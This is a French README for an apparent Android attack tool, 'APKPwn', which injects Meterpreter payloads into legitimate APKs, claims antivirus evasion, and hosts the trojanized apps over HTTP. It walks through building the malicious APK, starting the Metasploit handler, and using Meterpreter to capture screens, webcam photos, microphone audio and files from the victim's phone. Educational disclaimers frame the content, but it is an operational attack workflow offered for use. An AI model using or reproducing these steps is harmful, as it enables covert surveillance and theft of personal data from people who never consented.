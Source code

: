 # APKPwn - Android AV Evasion & Payload Injection Tool

APKPwn est un outil de sensibilisation à la cybersécurité qui permet de générer des APK infectées avec un payload **Meterpreter**. Cet outil est conçu dans un cadre éducatif pour démontrer les risques d'une mauvaise gestion des applications mobiles, en particulier l'installation de logiciels non fiables.

> **⚠️ IMPORTANT :**
> Ce projet est à but éducatif et de sensibilisation. Toute utilisation malveillante de cet outil est strictement interdite. **N'utilisez jamais les APK générées dans un environnement réel ou sans consentement explicite**. L'outil est conçu pour des environnements de tests sécurisés.

## Caractéristiques
- Génération de payloads Android avec `msfvenom`.
- Évasion AV pour des tests sur des applications Android.
- Signatures APK intégrées.
- Serveur HTTP intégré pour héberger et servir les APK malveillantes.

## Prérequis

- Système Linux (testé sur Ubuntu/Debian).
- Metasploit Framework installé.
- Les dépendances suivantes doivent être présentes :
  - `apktool`
  - `openjdk-11-jdk`
  - `apksigner`
  - `zipalign`
  
Si les dépendances ne sont pas installées, l'outil les installera automatiquement.

## Installation

1. Clonez le dépôt sur votre machine :

    ```bash
    git clone https://github.com/votre-utilisateur/APKPwn.git
    cd APKPwn
    ```

2. Installez les dépendances :

    L'outil vérifiera les dépendances nécessaires et vous proposera de les installer si elles ne sont pas disponibles.

    ```bash
    python3 apkpwn.py
    ```

3. Lancer l'outil :

    ```bash
    python3 apkpwn.py
    ```

    Suivez les instructions à l'écran pour choisir le payload, définir les options d'hôte et de port, et créer l'APK infectée.

## Utilisation

### Étape 1 : Création de l'APK infectée

Une fois l'outil lancé, vous devrez fournir les informations suivantes :
- **LHOST** : L'adresse IP de votre machine (l'outil la détecte automatiquement).
- **LPORT** : Le port sur lequel Metasploit écoutera les connexions.
- **Original APK** : Chemin vers une APK légitime que vous souhaitez utiliser pour injecter le payload.
- **Output APK** : Nom de l'APK malveillante qui sera générée.

### Étape 2 : Lancer Metasploit et attendre la connexion

L'outil générera un fichier `meterpreter_handler.rc` pour faciliter le démarrage du listener Metasploit :

    ```bash
    msfconsole -r meterpreter_handler.rc
    ```

Cela lancera un handler qui attendra une connexion de l'APK infectée.

### Étape 3 : Démarrage du serveur HTTP

Une fois l'APK malveillante générée, l'outil démarre un serveur HTTP sur votre machine pour que l'APK soit accessible via un lien :

    ```bash
    http://votre-ip:8000/votre_apk_malveillante.apk
    ```

Le but est de sensibiliser les utilisateurs aux dangers des APK téléchargées sur des sites non officiels.

### Étape 4 : Ouvrir une session Meterpreter

Lorsque l'utilisateur installe et exécute l'APK infectée sur son appareil, une session Meterpreter s'ouvrira. Vous pouvez alors interagir avec l'appareil compromis.

    ```bash
    meterpreter > sessions -i [ID de la session]
    ```

## Scénario de Sensibilisation

Voici un scénario de sensibilisation typique pour une session Meterpreter ouverte sur un appareil Android.

### 1. **Prendre une capture d'écran :**

Cela démontre comment un attaquant peut visualiser l'écran de l'utilisateur :

    ```bash
    meterpreter > screenshot
    ```

### 2. **Récupérer des informations sur l'appareil :**

Pour montrer la quantité d'informations accessibles à l'attaquant :

    ```bash
    meterpreter > sysinfo
    ```

### 3. **Vérifier si l'appareil est rooté :**

Montre comment l'attaquant peut vérifier si l'appareil a des permissions root :

    ```bash
    meterpreter > check_root
    ```

### 4. **Activer la caméra et prendre une photo :**

Un exemple frappant de la compromission de la vie privée :

    ```bash
    meterpreter > webcam_snap
    ```

### 5. **Activer le microphone et enregistrer de l'audio :**

Démontre comment l'attaquant peut enregistrer l'environnement sonore :

    ```bash
    meterpreter > record_mic
    ```

### 6. **Récupérer les fichiers de l'appareil :**

Montre que toutes les données de l'utilisateur peuvent être exfiltrées :

    ```bash
    meterpreter > ls /sdcard/
    meterpreter > download /sdcard/DCIM/photo.jpg
    ```

## Disclaimer

**APKPwn est strictement destiné à des fins éducatives et de sensibilisation.** Utilisez cet outil uniquement dans des environnements contrôlés avec l'autorisation de toutes les parties impliquées. L'utilisation malveillante peut entraîner des sanctions légales graves.

## Contributions

Les contributions sont les bienvenues ! Si vous souhaitez améliorer l'outil, n'hésitez pas à soumettre une Pull Request.

## License

Ce projet est sous licence MIT - consultez le fichier [LICENSE](LICENSE) pour plus de détails.
